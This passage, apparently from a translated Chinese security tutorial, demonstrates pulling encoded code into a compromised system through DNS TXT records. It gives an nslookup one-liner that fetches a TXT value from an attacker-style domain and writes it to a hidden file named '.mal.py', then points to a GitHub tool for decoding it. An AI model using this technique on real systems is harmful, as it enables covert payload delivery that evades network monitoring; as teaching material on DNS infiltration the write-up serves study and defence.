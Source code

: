 由于 TXT 记录被限制为 255 个字符，黑客很可能会为他们的 DNS 服务器配置多个 TXT 记录。这最终取决于他们的代码有多长。既然一切都已设置就绪；黑客需要做的只是请求那些 TXT 记录，获取值，解码它们，然后爆炸..他们现在已经通过 DNS TXT 记录将自己的代码渗透到一个被入侵的系统中。

![](img/ced771b811b53643b0db3b9b0c9727a5.png)

下面可以看到我的 TXT 记录。

![](img/fe3183ee0caa0a0aa41fb86b94b49ac8.png)

用于此演示的文件

1.`nslookup`

这将首先查找 rt1.badbaddoma.in 的 TXT 记录，然后获取引号内的值，最后将该值保存到名为“. mal.py”的文件中。

`nslookup -type=txt rt1.badbaddoma.in | grep Za | cut -d \" -f2 > .mal.py`

2.packet simple . py([https://github.com/kleosdc/dns-exfil-infil](https://github.com/kleosdc/dns-exfil-infil)

当代码要求您输入“文件名”时，请输入文件名“. mal.py”。这是我们保存编码值的文件。
